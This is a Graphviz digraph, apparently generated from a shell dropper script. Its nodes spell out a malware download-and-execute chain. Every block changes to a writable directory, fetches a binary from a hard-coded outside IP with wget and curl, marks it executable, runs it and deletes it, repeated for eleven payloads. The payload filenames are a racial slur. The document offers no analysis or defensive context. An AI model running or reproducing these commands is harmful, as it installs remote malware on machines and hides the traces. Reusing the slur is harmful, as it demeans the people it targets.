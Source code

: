 digraph {
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 10 [label="||,"];
10 [label="wget http://52.242.28.46/Nigger "];
10 -> 12 [label=";,"];
12 [label="curl -O http://52.242.28.46/Nigger "];
12 -> 14 [label=";,"];
14 [label="chmod +x Nigger "];
14 -> 16 [label=";,"];
16 [label="./Nigger "];
16 -> 18 [label=";,"];
18 [label="rm -rf Nigger "];
18 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 30 [label="||,"];
30 [label="wget http://52.242.28.46/Nigger1 "];
30 -> 32 [label=";,"];
32 [label="curl -O http://52.242.28.46/Nigger1 "];
32 -> 34 [label=";,"];
34 [label="chmod +x Nigger1 "];
34 -> 36 [label=";,"];
36 [label="./Nigger1 "];
36 -> 38 [label=";,"];
38 [label="rm -rf Nigger1 "];
38 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 50 [label="||,"];
50 [label="wget http://52.242.28.46/Nigger2 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://52.242.28.46/Nigger2 "];
52 -> 54 [label=";,"];
54 [label="chmod +x Nigger2 "];
54 -> 56 [label=";,"];
56 [label="./Nigger2 "];
56 -> 58 [label=";,"];
58 [label="rm -rf Nigger2 "];
58 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 70 [label="||,"];
70 [label="wget http://52.242.28.46/Nigger3 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://52.242.28.46/Nigger3 "];
72 -> 74 [label=";,"];
74 [label="chmod +x Nigger3 "];
74 -> 76 [label=";,"];
76 [label="./Nigger3 "];
76 -> 78 [label=";,"];
78 [label="rm -rf Nigger3 "];
78 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 90 [label="||,"];
90 [label="wget http://52.242.28.46/Nigger4 "];
90 -> 92 [label=";,"];
92 [label="curl -O http://52.242.28.46/Nigger4 "];
92 -> 94 [label=";,"];
94 [label="chmod +x Nigger4 "];
94 -> 96 [label=";,"];
96 [label="./Nigger4 "];
96 -> 98 [label=";,"];
98 [label="rm -rf Nigger4 "];
98 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 110 [label="||,"];
110 [label="wget http://52.242.28.46/Nigger5 "];
110 -> 112 [label=";,"];
112 [label="curl -O http://52.242.28.46/Nigger5 "];
112 -> 114 [label=";,"];
114 [label="chmod +x Nigger5 "];
114 -> 116 [label=";,"];
116 [label="./Nigger5 "];
116 -> 118 [label=";,"];
118 [label="rm -rf Nigger5 "];
118 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 130 [label="||,"];
130 [label="wget http://52.242.28.46/Nigger6 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://52.242.28.46/Nigger6 "];
132 -> 134 [label=";,"];
134 [label="chmod +x Nigger6 "];
134 -> 136 [label=";,"];
136 [label="./Nigger6 "];
136 -> 138 [label=";,"];
138 [label="rm -rf Nigger6 "];
138 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 150 [label="||,"];
150 [label="wget http://52.242.28.46/Nigger7 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://52.242.28.46/Nigger7 "];
152 -> 154 [label=";,"];
154 [label="chmod +x Nigger7 "];
154 -> 156 [label=";,"];
156 [label="./Nigger7 "];
156 -> 158 [label=";,"];
158 [label="rm -rf Nigger7 "];
158 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 170 [label="||,"];
170 [label="wget http://52.242.28.46/Nigger8 "];
170 -> 172 [label=";,"];
172 [label="curl -O http://52.242.28.46/Nigger8 "];
172 -> 174 [label=";,"];
174 [label="chmod +x Nigger8 "];
174 -> 176 [label=";,"];
176 [label="./Nigger8 "];
176 -> 178 [label=";,"];
178 [label="rm -rf Nigger8 "];
178 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 190 [label="||,"];
190 [label="wget http://52.242.28.46/Nigger9 "];
190 -> 192 [label=";,"];
192 [label="curl -O http://52.242.28.46/Nigger9 "];
192 -> 194 [label=";,"];
194 [label="chmod +x Nigger9 "];
194 -> 196 [label=";,"];
196 [label="./Nigger9 "];
196 -> 198 [label=";,"];
198 [label="rm -rf Nigger9 "];
198 -> 200 [label=";,"];
200 [label="cd /tmp "];
200 -> 200
202 [label="cd /var/run "];
202 -> 204 [label="||,"];
204 [label="cd /mnt "];
204 -> 206 [label="||,"];
206 [label="cd /root "];
206 -> 208 [label="||,"];
208 [label="cd / "];
208 -> 210 [label="||,"];
210 [label="wget http://52.242.28.46/Nigger10 "];
210 -> 212 [label=";,"];
212 [label="curl -O http://52.242.28.46/Nigger10 "];
212 -> 214 [label=";,"];
214 [label="chmod +x Nigger10 "];
214 -> 216 [label=";,"];
216 [label="./Nigger10 "];
216 -> 217 [label=";,"];
}
